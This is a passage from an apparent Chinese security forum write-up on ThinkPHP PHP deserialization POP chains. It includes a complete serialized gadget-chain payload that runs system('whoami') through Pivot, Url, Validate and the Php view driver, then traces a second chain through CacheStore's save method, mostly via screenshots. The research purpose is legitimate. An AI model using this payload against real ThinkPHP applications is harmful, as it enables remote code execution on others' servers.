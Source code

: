```php
    }
}

//这是display所在的类
namespace think\view\driver {
    class Php
    {
        public function __construct()  
        { 
        }
    }
}

O:17:"think\model\Pivot":6:{s:21:".think\Model.lazySave";b:1;s:19:".think\Model.exists";b:1;s:12:".*.withEvent";b:0;s:8:".*.table";O:15:"think\route\Url":4:{s:6:".*.url";s:2:"a:";s:9:".*.domain";s:25:"<?php system('whoami');?>";s:6:".*.app";O:16:"think\Middleware":1:{s:7:"request";s:4:"2333";}s:8:".*.route";O:14:"think\Validate":1:{s:4:"type";a:1:{s:13:"getDomainBind";a:2:{i:0;O:21:"think\view\driver\Php":0:{}i:1;s:7:"display";}}}}s:17:".think\Model.data";a:1:{i:0;s:1:"1";}s:18:".think\Model.force";b:1;}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-aaa5e8944feca4a5ba17b8a5c47aabaa6695bf78.png)

### POP 0x01

换反序列化的入口拉

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-1be67f56e6439e7e80a3f2bea86ab8e2d85389cc.png)

改为这里

过`if` 令`$autosave = false`，

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-2cea015b277ec9a72a38298dd51e9960bd309f00.png)

因为这里`__desturct`的`AbstractCache`为抽象类，所以需要找一下它的子类，`/vendor/topthink/framework/src/think/filesystem/CacheStore.php`，这里面实现了`save`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3827b4b2629408f9c4980df3315563bce2c1a7ac.png)

跟进`save`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-594d64a5b7652198caa8646abc0daa6977753e13.png)

先跟进`getForStorage()`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-4075bc9e28c98b693ce3af25989a7649ba3d7f8c.png)

继续跟进`cleanContents`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0e876991829adff0a53e857b175f96982b90d3c5.png)

只要不是嵌套数组，就可以直接`return`回来，返回到`json_encode`
